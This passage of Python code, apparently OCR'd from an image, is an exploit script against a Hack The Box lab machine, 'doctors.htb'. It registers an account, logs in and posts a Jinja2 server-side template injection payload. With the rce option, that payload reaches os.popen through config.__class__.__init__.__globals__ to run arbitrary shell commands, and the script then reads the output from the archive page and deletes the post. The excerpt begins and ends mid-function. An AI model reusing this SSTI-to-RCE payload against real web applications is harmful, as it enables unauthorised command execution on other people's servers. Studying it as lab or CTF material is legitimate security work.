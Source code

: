 ```py
	s = requests.Session()
	print(f"[+]Creating user {username} {email}")
	res = s.post(url=url, data=data)
	if b'Your account has been created' in res.content:
		print("[+]user created")
	else:
		print("[-]User creation failed")
		print(f"[*]DEBUG {res.content}{res}")

	return username, email
def login(user, email):
	url = "http://doctors.htb/login"
	data = {'email':email,'password':'test', 'submit':'Login'}
	s = requests.Session()
	print(f"[+]Logging in as user {user}")
	res = s.post(url=url, data=data)
	if b'New Message' in res.content:
		print(f"[+]User {user} logged in ")
	else:
		print("[-]Login failed")
		print(f"[*]DEBUG {res.content}{res}")
		return ""
	return s
def execute_py(s, cmd, rce=0):
	randvalue = "{{"+str(random.randint(0,100000))+"}}"
	if rce:
		cmd = randvalue + "{{" + f"config.__class__.__init__.__globals__['os'].popen('{cmd}').read()" + "}}" + randvalue
	else:
		cmd = randvalue + "{{" + cmd + "}}" + randvalue
	url = "http://doctors.htb/post/new"
	data = {'title':cmd, 'content':'test', 'submit':'Post'}
	res = s.post(url=url, data=data)
	if b'Your post has been created!' in res.content:
		print('[+]Payload post added')
	else:
		print('[-]Failed to add payload post')
		print(f"[*]DEBUG {res.content}{res}")
		return "", ""
	return s, randvalue[2:-2]

def delete_post(s):
	res = s.get("http://doctors.htb/home")
	try:
		post = re.findall('<h2><a class="article-title" href="(.*)">',res.content.decode())[0].split('/')[-1]
		url = f"http://doctors.htb/post/{post}/delete"
		res = s.post(url=url)
		if b'Your post has been deleted!' in res.content:
			print("[+]Post deleted")
		else:
			print("[-]Failed to delete post")
			print(f"[*]DEBUG {res.content}{res}")
	except Exception as e:
			print("[-]Err. Failed to delete post")
			print(f"[*]DEBUG {e}")
			print(f"[*]DEBUG {post}")

def fetch_result(s, sep):
	url = "http://doctors.htb/archive"
	res = s.get(url=url)
	if b'Something went wrong' in res.content:
		print('500 - payload failed')
```